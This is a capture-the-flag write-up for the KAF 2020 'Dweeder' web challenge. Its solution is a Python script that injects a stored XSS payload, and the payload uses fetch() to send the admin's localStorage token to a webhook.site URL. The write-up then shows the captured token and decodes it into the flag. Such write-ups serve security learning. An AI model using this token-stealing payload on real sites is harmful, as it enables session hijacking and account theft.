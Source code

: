 ```yaml
---
layout: post
title: "Dweeder - KAF 2020"
author: gameplayone23
tags:
- 2020
- Web
- XSS
---
```


# Dweeder

- Category: Web
- Points : 500

*"Dweeder is just like a large communication platform except that you can only use it with a plugged nose"*

[Link to the challenge](https://dweeder.ctf.kaf.sh/)

# Description

This a website where you can post messages to be pushed to a feed. In order to post you need to be logon. It just requires to provide a name and handle.

A special message says :

```
Welcome to Dweeder!

As the developer of the platform, I wish you will have a blast using this application. To mention people, just add "@USER_HANDLE" to your contents (only one mention per dweed!). I'll be monitoring the site 24/7, so tag me and i'll open your message.

@shuky at 08:21
```

# Solution

The goal is to steal the admin token stored in the localstorage.

`XSS` has to be used. The bot monitoring the mentions to @shuky will trigger the `XSS`.

We use the `writeDweed` api function to create a message containing our `XSS` :

```python
import requests

# API url for posting
url = "https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed"

params = {
    # My token found in the local storage
    "token" : "eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6ImdkZnNocWgiLCJoYW5kbGUiOiJxaGRoZHFzaCJ9fQ==:LgQdZ0tqml1KWeJ0tkVk2W6UYB5eL8QUoo/CV6ELcwM=",
    "title" : "mytitle",
    # mention to @shuky mandatory
    "contents" : "@shuky",
    # id is parsed :
    "id":"${tt}",
    # Important element :
    # the first double quote to close the "onClick" event
    # "onfocus" event containing a webhook with localStorage.token
    # "autofocus" make the div autofocus to trigger the fetch
    # "contenteditable" make the focus possible
    "tt":"\"onfocus=\"fetch('https:\/\/webhook.site\/90cadc22-8d7a-4fd6-9de2-fe6875ca3916\/'+localStorage.token)\"autofocus=\"true\"contenteditable=\"true\"" 
}

r=requests.get(url, params = params)

print (r.text)
```

The message is read by the bot and at `webhook.site` we can see the url :

```
https://webhook.site/90cadc22-8d7a-4fd6-9de2-fe6875ca3916/
eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6IktBRntfdzNsbF90aDR0NV93aDR0X2I0ZF9jMGQzX2wwMGs1X2wxa2V9IiwiaGFuZGxlIjoic2h1a3kifX0=:V0HhP4AicOqHQdqnUT/cDgAV/WbanoUdwaUBw2RsdUg=
```

The token can be decoded with base 64 decoder, the `flag` is stored in the name :

```
{"expiry":null,"content":{"name":"KAF{_w3ll_th4t5_wh4t_b4d_c0d3_l00k5_l1ke}","handle":"shuky"}}xO:vOYGpi@pR
```

# Conclusion

During the event, i was not able to get a valid `XSS`. So i looked at the discord for a solution and found the `tt` variable in the payload.